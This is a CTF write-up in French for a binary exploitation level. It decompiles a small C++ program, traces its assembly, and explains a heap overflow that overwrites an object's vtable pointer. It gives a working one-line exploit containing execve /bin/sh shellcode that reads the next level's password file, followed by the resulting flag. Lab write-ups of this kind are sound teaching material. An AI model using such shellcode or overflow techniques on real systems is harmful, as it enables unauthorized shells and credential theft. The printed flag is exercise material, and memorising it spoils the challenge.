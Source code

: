 # Rapport CTF - [Level09]

### Observation :
En arrivant sur le level9 on trouve un exécutable nommé level9.\
Quand nous essayons de le lancer nous n'avons pas de retour. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c++
//----- (080486F6) --------------------------------------------------------
void __cdecl N::N(N *this, int a2)
{
*(_DWORD *)this = off_8048848;
*((_DWORD *)this + 26) = a2;
}

//----- (0804870E) --------------------------------------------------------
void *__cdecl N::setAnnotation(N *this, char *s)
{
size_t v2; // eax

v2 = strlen(s);
return memcpy((char *)this + 4, s, v2);
}

//----- (080485F4) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  N *v3; // ebx
  N *v4; // ebx
  N *v6; // [esp+1Ch] [ebp-8h]

  if ( argc <= 1 )
    _exit(1);
  v3 = (N *)operator new(0x6Cu);
  N::N(v3, 5);
  v6 = v3;
  v4 = (N *)operator new(0x6Cu);
  N::N(v4, 6);
  N::setAnnotation(v6, (char *)argv[1]);
  return (**(int (__cdecl ***)(N *, N *))v4)(v4, v6);
}
```
Nous pouvons voir que c'est un code en cpp, qui new (malloc). \
Il n'y a pas de protection sur l'entrée de notre arv[1]. \
Nous pouvons donc injecter du code. 
#### Regardons l'asm:


```c
Dump of assembler code for function main:
   0x080485f4 <+0>:	push   %ebp
   0x080485f5 <+1>:	mov    %esp,%ebp
   0x080485f7 <+3>:	push   %ebx
   0x080485f8 <+4>:	and    $0xfffffff0,%esp
   0x080485fb <+7>:	sub    $0x20,%esp
   0x080485fe <+10>:	cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:	jg     0x8048610 <main+28>
   0x08048604 <+16>:	movl   $0x1,(%esp)
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:	movl   $0x6c,(%esp)
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:	mov    %eax,%ebx
   0x0804861e <+42>:	movl   $0x5,0x4(%esp)
   0x08048626 <+50>:	mov    %ebx,(%esp)
   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:	mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:	movl   $0x6c,(%esp)
   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:	mov    %eax,%ebx
   0x08048640 <+76>:	movl   $0x6,0x4(%esp)
   0x08048648 <+84>:	mov    %ebx,(%esp)
   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:	mov    %ebx,0x18(%esp)
   0x08048654 <+96>:	mov    0x1c(%esp),%eax
   0x08048658 <+100>:	mov    %eax,0x14(%esp)
   0x0804865c <+104>:	mov    0x18(%esp),%eax
   0x08048660 <+108>:	mov    %eax,0x10(%esp)
   0x08048664 <+112>:	mov    0xc(%ebp),%eax
   0x08048667 <+115>:	add    $0x4,%eax
   0x0804866a <+118>:	mov    (%eax),%eax
   0x0804866c <+120>:	mov    %eax,0x4(%esp)
   0x08048670 <+124>:	mov    0x14(%esp),%eax
   0x08048674 <+128>:	mov    %eax,(%esp)
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
   0x08048695 <+161>:	mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:	leave  
   0x08048699 <+165>:	ret   
```
On peut voir à partir de la ligne 136 que eax vas être mov dans edx qui vas exécuter sa valeur dereferencer.


### Solution :
Il nous faut donc overflow notre malloc (new) de `108` octets pour mettre une valeur de retour avec l'adresse de notre arv[1]. \
On injecte donc notre code: 
- Notre adresse de `arv[1] + 4` pour le dereferancement
- Notre `SHELLCODE` (en locurance 24 caracteres)
- Des octets random jusqu'a atteindre `108` pour pouvoir overflow, donc `108 - 4 - 24`
- Et enfin l'adresse de notre arv[1] pour qu'il puisse la déréférencer et arriver sur notre shellcode.

On fait la commande suivante pour obtenir le flag :
```sh
/home/user/level9/level9 $(python -c "print('\x08\x04\xa0\x10'[::-1]  + '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'A'*(108 - 4 - 24) + '\x08\x04\xa0\x0c'[::-1])") <<< "cat /home/user/bonus0/.pass"
```

### Resultat :
```sh
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
